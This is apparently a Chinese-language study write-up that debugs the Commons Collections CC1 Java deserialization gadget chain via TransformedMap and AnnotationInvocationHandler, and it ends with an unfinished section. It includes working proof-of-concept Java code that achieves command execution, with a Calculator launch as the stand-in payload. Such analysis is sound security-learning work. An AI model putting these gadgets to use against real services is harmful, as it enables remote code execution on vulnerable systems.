# **0x00** 前言

本文主要参考了

- [Phith0n师傅的Java安全漫谈系列](https://govuln.com/docs/java-things/)

第一节是Phith0n师傅简化的一个CC1链的debug分析。

第二节是Phith0n师傅的利用TransformedMap编写Poc。


# **0x01** CC1链简化版分析

上一篇文章中，debug跟踪分析了ysoserial URLDNS链。本节将对Phith0n在小密圈分享的CC1链进行一个分析和学习。这里，为了方便调用，我们在该路径`ysoserial-master/src/main/java/ysoserial/payloads/CC1.java`下建立CC1.java文件，内容如下：

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, transformerChain, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

这样，可以点击绿色箭头直接debug分析。如下图

按照上图下好断点后，我们开始debug分析。

## 方法分析

对CC1 gadget涉及到的类文件和方法进行一个简单的分析。

**Transformer接口**

Transformer.java是一个接口文件，它只有一个待实现的方法：

```java
public interface Transformer {
    public Object transform(Object input);
}
```

并且该类被很多类实现。


**ConstantTransformer类**

该类实现了Transformer接口。

1. 其构造函数将传入参数赋值给this.iConstant变量；

```java
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}
```
2. transform方法将返回this.iConstant变量。

```java
public Object transform(Object input) {
    return this.iConstant;
}
```

如果程序存在一个参数需要ConstantTransformer类的实例化变量，且之后又调用了其transform函数，我们就可以利用构造函数的参数constantToReturn传递任意指定Object对象（披着羊皮的狼）


**InvokerTransformer类**

该类实现了Transformer接口。

1. 其构造函数只进行简单的赋值操作;

```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```

该构造函数与transform方法息息相关，需要三个参数。

2. 该类实现的transform方法可执行任意方法，也是反序列化执行命令的关键。

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
      try {
            Class cls = input.getClass();
        		Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
             ...
             ...
```

transform将解析构造参数传入的三个参数，执行input对象的iMethodName方法。

**ChainedTransformer类**

该类实现了Transformer接口。

1. 将传入参数赋值给iTransformers。注意，其类型为Transformer[]，是一个接口类型数组。

   ```java
   public ChainedTransformer(Transformer[] transformers) {
     super();
     iTransformers = transformers;
   }
   ```

2. transform方法会逐个遍历执行接口类型数组变量iTransformers数据的transformer方法，并将前一个执行的transform方法返回的结果作为接续执行的transform方法的输入。借用Phith0n师傅的图源码如下:

   ```java
   public Object transform(Object object) {
     for (int i = 0; i < iTransformers.length; i++) {
       object = iTransformers[i].transform(object);
     }
     return object;
   }
   ```

**TransformedMap类**

TransformedMap用于对Java标准数据结构Map做一个修饰，被修饰过的Map在添加新的元素时，将可以执行一个回调。

- 构造函数TransformedMap是protected，需要使用decorate方法调用

  ```java
  public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
  }
  
  protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      super(map);
      this.keyTransformer = keyTransformer;
      this.valueTransformer = valueTransformer;
  }
  ```

- put方法，是修饰过后的map对象添加新元素的方法。将会调用decorate方法传入的参数处理key和value。

  ```java
  public Object put(Object key, Object value) {
      key = this.transformKey(key);
      value = this.transformValue(value);
      return this.getMap().put(key, value);
  }
  ```

## 过程分析

主函数代码：

```java
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec", new Class[]{String.class},
        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxxx");
}
```

第1行 main函数

第2行 定义了一个接口类型数组`Transformer[]{}`，它有两个数据。

第3行 Transformer[]数组的第一个数据：ConstantTransformer类的实例化对象。后续过程中将调用其transform方法，return这里传入的`Runtime.getRuntime()`

第4-5行 Transformer[]数组的第二个数据：InvokerTransformer类的实例化对象，接收并保存三个参数（恶意命令）。后续过程中将调用其transform方法，并传入第一个数据的transform方法的返回结果`Runtime,getRuntime()`，执行恶意命令。

第7行 实例化对象ChainedTransformer，传入数组transformers。

第8行 实例化HashMap对象。

第9行 执行TransformedMap.decorate方法->构造方法。传入Map对象innerMap和进行数据修饰的对象transformerChain。

第10行 添加新元素。1-9行执行的代码都是为这一步做准备，是触发命令执行的关键代码。调用链如下：

ChainedTransformer类的transform方法遍历执行iTransformers(Transformer接口数组)内数据的transform方法。首先执行ConstantTransformer的transform方法：可以看到，传入数据值为`test`，也正如上文对ConstantTransformer类的分析，transform方法返回了`Runtime`对象。接续执行InvokerTransfomer类的transform方法。输入为ConstantTransformer的transform方法返回的**Runtime对象**，并利用反射在61行处执行命令。结果如下：

提一句，由于在 

```java
Map outerMap = TransformedMap.decorate(innerMap, transformerChain, transformerChain);
```

中对于key和value的修饰方法均设置为transformerChain，所以完整运行会执行两次命令。

# **0x02** 利用TransformedMap编写POC

ysoserial中CC1 gadget利用的LazyMap。这里，我们先学习一下这个同样是CC内置类，TransformedMap的gadget poc编写。

同样，在该ysoserial源码的路径`src/main/java/ysoserial/payloads/CC11.java`下建立文件CC11.java，内容如下

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;
public class CC11 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class },
                new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class },
                new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" })
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Target.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream  oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

打开文件，在19行下断点，点击绿色箭头，选择Debug，开始调试。

## 方法分析

TransformedMap gadget涉及到如下类：

- ConstantTransformer
- InvokerTransformer
- ChainedTransformer
- HashMap
- TransformedMap
- Target
- AnnotationInvocationHandler
- ByteArrayOutputStream和ByteArrayInputStream、ObjectOutputStream和ObjectInputStream

ByteArrayOutputStream和ByteArrayInputStream、ObjectOutputStream和ObjectInputStream类是序列化和反序列化的几个类，不用过多叙述。

ConstantTransformer、InvokerTransformer、ChainedTransformer与HashMap和TransformedMap类是构造poc gadget链的环节，与上节的相比，有两点不同

1. 考虑到Runtime未实现`java.io.Serializable`，采用反射获取其实例，改成接口类数组`Transform[]`的写法如下：

   ```java
   Transformer[] transformers = new Transformer[] {
   	new ConstantTransformer(Runtime.class),
   	new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
   	new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
   	new InvokerTransformer("exec", new Class[] { String.class }, new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" })
   };
   ```

2. 上节中，直接采用被TransformedMap修饰过的HashMap变量outerMap执行put方法，手动触发漏洞。反序列化过程中，不可能手动执行put方法，我们需要找一个继承了`java.io.Serializable`接口的类触发漏洞，触发`ChainedTransformer`的transform方法。所以这里，并未使用outerMap执行put方法，直接使用`innerMap.put`添加`("value","xxxx")`。

   > 这里如果我们改成上节中的`outerMap.put("value","xxxx")`，会报错如下：可以看到报错`NotSerializableException`，这是因为执行命令后键值value的值为UNIXProcess未继承`java.io.Serializable`接口。
   >
   > 所以原始代码中，既然不需要put添加元素触发漏洞，为什么还要put一个键值为value的值呢？

AnnotationInvocationHandler正是触发漏洞的关键类，其readObject方法调用了setValue方法，可以用来触发漏洞。如图有个条件是`var7 != null`，为了达到这个条件需要满足两个条件

- sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须继承了Annotation（源代码中的36行），且其至少含有一个方法，假设方法名是X
- 被 TransformedMap.decorate 修饰的Map中必须有一个键名为X的元素

具体原因将在下文讲述。

综上所述，整个gadget chains构造的过程如下：

1. 构造漏洞的gadget chains
2. 构造触发gadget chains的关键代码
3. 序列化和反序列化触发漏洞

## 过程分析

**构造漏洞的gadget chains**在0x01章中已经分析过，不再赘述。

**构造触发gadget chains的关键代码**

从30行开始构造触发gadget chains的关键代码，到36行结束。由于很多代码需要触发反序列化后才能够进行调试，故与**序列化和反序列化触发漏洞**放到一起讲。

上小节中，我们讲到了满足`var7 != null`的条件之一是被TransformedMap修饰的Map中必须存在键值为value的元素，故：
30-31行 执行代码`innerMap.put("value", "xxxx");`至于为什么必须要键值为value，后续在43行执行readObject方法中我们会进行追述。

32行 使用TransformedMap修饰插入了键值为value的元素的HashMap对象。

33-36行 由于AnnotationInvocationHandler是JDK内部类，不能直接使用new进行实例化，这里采用反射获取其构造方法，并设置为外部可见，再进行实例化。AnnotationInvocationHandler的构造函数如下：接收了两个参数，`Target.class`和`innerMap`。整个函数主要是判断Target.class是否继承了Annotation接口，继承，就执行一些初始化赋值操作；否则报错。判断方法是先执行getInterfaces，获取Target.class所有继承接口，将结果赋值给`var3`后调用isAnnotation方法进行判断。查看Target.class源码，内容如下：根据[Java注解和反射机制](https://zhuanlan.zhihu.com/p/362831896)所述：

> 使用@interface关键字自定义注解，其实底层就是定义了一个接口，而且自动继承`java.lang.annotation.Annotation`接口。

Target.class继承了`java.lang.annotation.Annotation`接口。故var3的值为因此通过判断，进行初始化赋值操作后，接续执行POC。这也是为什么我们传入给AnnotationInvocationHandler 构造函数的第一个参数必须继承Annotation，是为了通过这里的if判断。

37-42行 进行了序列化，并输出序列化字符串及反序列的操作。

43行 反序列化调用AnnotationInvocationHandler的readObject方法，触发漏洞。

------

见下文**执行readObject方法分析**

------

readObject方法分析结束后，整个poc的分析也就结束了。上文提了

### 执行readObject方法分析



342行 执行defaultReadObject方法

343行 初始化AnnotationType变量var2

346行 this.type是在AnnotationInvocationHandler的构造函数中初始化的变量，值为`Target.class`；程序经过几轮调用，会进入AnnotationType.class文件，实例化AnnotationType类，计算接口Target的value方法的hash，并写进HashMap数组memberTypes和members中，并将结果将赋值给var2，如下图所示：（可能描述有误。但这里计算value的hash，是为后续判断var7是否为null做准备）

351行 返回var2的HashMap对象memberTypes，赋值给var3。

352行 this.memberValues也是在AnnotationInvocationHandler的构造函数中初始化的变量，值为TransformedMap对象；entrySet进行一些初始化操作；itearator方法返回一个AbstractInputCheckedMapDecorator$EntrySetlterator对象，并赋值给var4。

354行 将会执行var4（HashMap$EntryIterator）的hasNext方法，因为存在一个键值为value的数据，hasNext返回True，所以这里会进入while循环。

355-356行 获取键值value，赋值给var6.

357行 执行`var3.get(var6)`，并赋值给var7。var3是一个HashMap对象，执行其get方法，返回指定键值在HashMap中的映射值；若不存在映射值，则返回null。var6的值为`value`，因为在346行，HashMap映射了Target接口的value方法，也就是一个键值为value的元素，故这里会返回：这也是为什么需要在要被Transofrmed修饰的Map数组中插入一个键值为value的元素。

359行 获取键值为value的元素的值。

360行 如图，var7类型为Class，var8类型为String。故判断结果为true。

361行 进入执行setValue方法；this.parent值为TransformedMap，是熟悉的味道！后续与**0x01章**中ChainedTransformer类transform执行大同小异，不再赘述。

## 章节小记

 本章对利用TransformedMap编写的CC1链进行了自以为较为详细的一个debug分析（才疏学浅）。

困难点主要在readObject中，几个var变量的相互调用及其跟进分析让我分析的很头大；然后就是最后成文的逻辑和语义方面，调整了一些小细节。

# 0x03 调试ysoserial中的CC1链


累了，明天再说

